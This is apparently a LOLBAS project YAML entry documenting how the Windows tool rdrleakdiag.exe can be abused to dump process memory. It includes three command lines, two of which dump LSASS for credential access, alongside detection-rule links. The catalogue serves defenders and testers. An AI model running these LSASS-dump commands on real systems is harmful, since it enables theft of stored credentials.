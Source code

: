 ```yaml
---
Name: rdrleakdiag.exe
Description: Microsoft Windows resource leak diagnostic tool
Author: 'John Dwyer'
Created: 2022-05-18
Commands:
  - Command: rdrleakdiag.exe /p 940 /o c:\evil /fullmemdmp /wait 1
    Description: Dump process by PID and create a dump file (Creates files called minidump_<PID>.dmp and results_<PID>.hlk).
    Usecase: Dump process by PID.
    Category: Dump
    Privileges: User
    MitreID: T1003
    OperatingSystem: Windows
  - Command: rdrleakdiag.exe /p 832 /o c:\evil /fullmemdmp /wait 1
    Description: Dump LSASS process by PID and create a dump file (Creates files called minidump_<PID>.dmp and results_<PID>.hlk).
    Usecase: Dump LSASS process.
    Category: Dump
    Privileges: Administrator
    MitreID: T1003.001
    OperatingSystem: Windows
  - Command: rdrleakdiag.exe /p 832 /o c:\evil /fullmemdmp /snap
    Description: After dumping a process using /wait 1, subsequent dumps must use /snap (Creates files called minidump_<PID>.dmp and results_<PID>.hlk).
    Usecase: Dump LSASS process mutliple times.
    Category: Dump
    Privileges: Administrator
    MitreID: T1003.001
    OperatingSystem: Windows
Full_Path:
  - Path: c:\windows\system32\rdrleakdiag.exe
  - Path: c:\Windows\SysWOW64\rdrleakdiag.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/197615345b927682ab7ad7fa3c5f5bb2ed911eed/rules/windows/process_creation/proc_creation_win_proc_dump_rdrleakdiag.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/197615345b927682ab7ad7fa3c5f5bb2ed911eed/rules/windows/process_creation/proc_creation_win_process_dump_rdrleakdiag.yml
  - Elastic: https://www.elastic.co/guide/en/security/current/potential-credential-access-via-windows-utilities.html
  - Elastic: https://github.com/elastic/detection-rules/blob/5bdf70e72c6cd4547624c521108189af994af449/rules/windows/credential_access_cmdline_dump_tool.toml
Resources:
  - Link: https://twitter.com/0gtweet/status/1299071304805560321?s=21
  - Link: https://www.pureid.io/dumping-abusing-windows-credentials-part-1/
  - Link: https://github.com/LOLBAS-Project/LOLBAS/issues/84
Acknowledgement:
  - Person: Grzegorz Tworek
    Handle: '@0gtweet'
---
```

